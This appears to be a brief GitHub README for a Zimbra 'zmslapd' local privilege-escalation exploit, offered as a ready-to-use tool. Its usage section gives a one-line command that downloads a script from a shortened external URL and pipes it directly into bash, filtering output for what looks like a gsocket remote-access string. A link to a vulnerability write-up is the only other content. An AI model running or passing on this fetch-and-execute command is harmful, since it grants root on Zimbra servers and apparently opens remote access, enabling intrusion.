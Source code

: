 # zimbra-slapper
Zimbra "zmslapd" local root exploit rewriten by Aels
# usage
```
curl -fskSL is.gd/zimbslap | bash 2>&1 | grep -oE "gs.+-i"
```
# details
https://darrenmartyn.ie/2021/10/27/zimbra-zmslapd-local-root-exploit/

